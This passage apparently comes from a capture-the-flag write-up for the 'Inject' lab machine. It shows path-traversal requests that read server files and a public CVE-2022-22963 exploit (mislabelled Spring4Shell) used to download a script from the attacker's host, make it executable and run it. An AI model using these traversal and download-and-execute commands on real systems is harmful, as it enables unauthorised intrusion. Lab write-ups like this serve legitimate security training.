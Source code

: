 It turns out to be a spring boot app:

```bash
~x» wget -q 'http://inject.htb:8080/show_image?img=../../../pom.xml' -O - | ag spring
                <groupId>org.springframework.boot</groupId>
                <artifactId>spring-boot-starter-parent</artifactId>
        <description>Demo project for Spring Boot</description>
                        <groupId>org.springframework.boot</groupId>
                        <artifactId>spring-boot-starter-thymeleaf</artifactId>
                        <groupId>org.springframework.boot</groupId>
                        <artifactId>spring-boot-starter-web</artifactId>
                        <groupId>org.springframework.boot</groupId>
                        <artifactId>spring-boot-devtools</artifactId>
                        <groupId>org.springframework.cloud</groupId>
                        <artifactId>spring-cloud-function-web</artifactId>
                        <groupId>org.springframework.boot</groupId>
                        <artifactId>spring-boot-starter-test</artifactId>
                                <groupId>org.springframework.boot</groupId>
                                <artifactId>spring-boot-maven-plugin</artifactId>
                <finalName>spring-webapp</finalName>
```

#### Exploiting: CVE-2022-22963: Spring4Shell RCE Exploit

The vuln  source (this repo has been recently created :D): https://github.com/lemmyz4n3771/CVE-2022-22963-PoC

The simple/test bash script:

```bash
~x» cat z.sh
#!/bin/bash
whoami > /tmp/foobar
```

Uploading and executing:
```bash
~x» python3 exploit.py 'inject.htb:8080' 'wget http://10.10.14.69:8000/z.sh -O /tmp/z.sh'
[+] Host is vulnerable
[+] Command executed
[+] Exploit completed
~x» python3 exploit.py 'inject.htb:8080' 'chmod +x /tmp/z.sh'
[+] Host is vulnerable
[+] Command executed
[+] Exploit completed
~x» python3 exploit.py 'inject.htb:8080' '/tmp/z.sh'
[+] Host is vulnerable
[+] Command executed
[+] Exploit completed
~x»

~x» curl 'http://inject.htb:8080/show_image?img=../../../../../../../../../../tmp/foobar'
frank
```
